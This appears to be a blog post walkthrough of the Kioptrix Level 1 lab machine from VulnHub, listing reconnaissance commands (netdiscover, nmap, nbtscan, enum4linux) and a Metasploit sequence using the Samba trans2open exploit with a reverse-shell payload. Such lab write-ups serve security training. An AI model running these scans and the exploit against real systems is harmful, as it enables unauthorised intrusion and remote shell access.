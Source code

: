 ```yaml
---
layout: post
title: "Vulhub-Kioptrix level 1"
date: 2016-06-06 09:21:18 -0500
comments: true
categories: [vulhub, smb, openssl, kioptrix]
---
```


From [Vulhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

###Tools:

* netdiscover
* Nmap
* nbtscab
* enum4linux
* Metasploit
* Nikto




Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/kioptrix1/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.182 is the target.


Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.182 -p-`

Opening ports: 22, 111, 139, 80, 443, 1024.

{% img  /images/blog/vulhub/kioptrix1/Selection_002.png   [title manually exploit [alt text]] %}


SMB Attack:

Looks like SMB service is on. Lets start nbtscan to exam SMB.

`nbtscan 192.168.79.182`

{% img  /images/blog/vulhub/kioptrix1/Selection_003.png   [title manually exploit [alt text]] %}

use enum4linux to enumerate smb:

`enum4linux  -a 192.168.79.182`


{% img  /images/blog/vulhub/kioptrix1/Selection_004.png   [title manually exploit [alt text]] %}

get the samba version

Now start Metasploit:

```
msfconsole
search samba
use exploit/linux/samba/trans2open
set rhost 192.168.79.182
set payload generic/shell_reverse_tcp
exploit

```
